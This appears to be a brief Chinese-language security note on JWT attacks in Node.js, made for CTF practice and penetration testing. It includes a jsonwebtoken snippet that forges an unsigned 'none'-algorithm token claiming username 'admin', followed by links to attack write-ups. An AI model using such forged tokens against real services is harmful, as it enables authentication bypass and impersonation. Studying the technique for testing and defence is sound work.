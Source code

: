 nodejs中的jwt库在签名时用algorithm指定算法，而在验签时用algorithms指定算法
在测试jwt相关的安全问题时可以使用burpsuite的JOSEPH插件辅助测试

```ts
// https://www.secpulse.com/archives/129304.html
// https://blog.csdn.net/miuzzx/article/details/127744431#t1
const jwt = require('jsonwebtoken');

var payload = {
    secretid: [],
    username: 'admin',
}
var token = jwt.sign(payload, undefined, {algorithm: 'none'});
console.log(token);
```


# Article
[浅析JWT Attack](https://mp.weixin.qq.com/s/WvVgavjJMXSZQsVFtHEOhA)
[JWT相关题目刷题](https://mp.weixin.qq.com/s/Ss9Oc2ZN7qFboBWaXfrDLA)
[『红蓝对抗』JWT 攻击手法](https://mp.weixin.qq.com/s/OVppZClKRWP8zNEBjZPRow)